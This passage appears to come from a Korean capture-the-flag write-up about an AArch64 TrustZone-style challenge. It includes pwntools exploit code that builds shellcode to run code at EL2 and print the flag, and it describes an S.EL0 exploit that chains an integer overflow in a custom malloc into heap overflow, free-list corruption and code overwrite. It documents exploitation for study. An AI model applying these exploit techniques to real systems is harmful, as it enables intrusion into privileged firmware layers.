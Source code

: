 ```python
        0xD53BFC81,
        0xB9001001,
        0xD53BFCA1,
        0xB9001401,
        0xD53BFCC1,
        0xB9001801,
        0xD53BFCE1,
        0xB9001C01,
    ]
    for x in GET_FLAG:
        shellcode += p32(x)

    assem = f"""
    ldr x5, ={hex(print_function)};\n
    blr x5;\n
    
    nop;\n
    """
    shellcode += make_shellcode(assem)

    return shellcode


p = remote("localhost", 6666)
# p = process("../share/run.sh")
# p = process("../share/run_debug.sh")
el0_elf = ELF("./el0")

EL2_PRINT_FUNCTION = 0x40101020
el2_arbitrary_code_execute(make_print_flag_shellcode(EL2_PRINT_FUNCTION))

FLAG = p.recvline()
print(f"Flag: {FLAG.decode()}")
```

### S.EL0

취약점은 save_key 의 custom malloc 에 존재한다.  
malloc 의 인자로 받는 size 의 align 을 맞추는 과정에서 size 에 더하기를 수행하지만, 그 결과를 검증하지 않아서 Integer Overflow 가 발생할 수 있다. 그러면 메모리 할당 후에 memcpy 를 하는 과정에서 Heap Overflow 가 발생할 수 있다.  
이 때 Data Abort 가 발생해도 아무런 문제가 발생하지 않기 때문에 편하게 익스를 할 수 있다.

custom heap도 free_list를 가지고 있고 fd를 통해 freed chunk를 연결하므로 Heap Overflow를 통해 free_list를 변조할 수 있다. 그리고 unlink를 통해 4byte aaw가 가능하다.

그리고 위에서 보면 알 수 있듯 SEL0의 Code 영역은 RWX 권한이다. 따라서 코드 영역을 변조하면 Arbitrary Code Execture를 할 수 있다.
```python
from pwn import *

# context.log_level = "debug"
context.arch = "aarch64"
context.bits = 64
context.endian = "little"

DUMMY_VALUE = 0xDEAD_BEEF_CAFE_BEBE

EL0_STACK_LOW = 0x7FFF_7FFF_E000
EL0_SFP_IN_RUN = 0x7FFF_7FFF_FFA0

EL0_BUF = 0x7FFE_FFFF_D000
EL0_WSM = 0x7FFE_FFFF_E000

EL0_LDP_X29_X30_SP_RET = 0x0040_00FC
EL0_LDR_X19_LDP_X29_X30_SP_RET = 0x0040_0294
```